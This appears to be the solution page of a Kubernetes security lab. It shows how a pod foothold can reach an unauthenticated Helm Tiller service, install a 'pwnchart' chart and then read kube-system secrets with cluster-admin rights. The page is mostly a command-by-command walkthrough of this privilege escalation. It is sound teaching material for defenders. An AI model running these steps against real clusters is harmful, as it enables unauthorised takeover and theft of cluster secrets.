





# Attacking Helm tiller without RBAC setup - Solution

* Let's assume that you already have access to a pod inside a cluster using an application vulnerability (Ex: Command Injection)

* Then we can run the below command to deploy simple pod which contains `helm` and `kubectl` binaries

```bash
kubectl run -n default --quiet --rm --restart=Never -ti --image=madhuakula/helm-security incluster
```



* If we check the version of the helm, it responds with `Error: pods is forbidden: User "system:serviceaccount:default:default" cannot list pods in the namespace "kube-system"`. Means client not able to establish connection with server

```bash
helm version
```

* Let's telnet to Tiller's default service and port. We can connect to `tiller-deploy.kube-system` on port `44134`

```bash
telnet tiller-deploy.kube-system 44134

Ctrl+C
```


* Now we can use the helm with host flag to talk to the server `helm --host tiller-deploy.kube-system:44134 version`



* Let's try getting the secrets from `kube-system` namespace using kubectl `kubectl get secrets -n kube-system`. We can clearly see that we can't get the secrets with default service account attached to this pod



* Let's go ahead and deploy our `pwnchart` helm chart

```bash
helm --host tiller-deploy.kube-system:44134 install /pwnchart
```



* Now let's try again to get the secrets from `kube-system` namespace using kubectl `kubectl get secrets -n kube-system`.



* We now have full cluster access to do whatever a cluster admin can do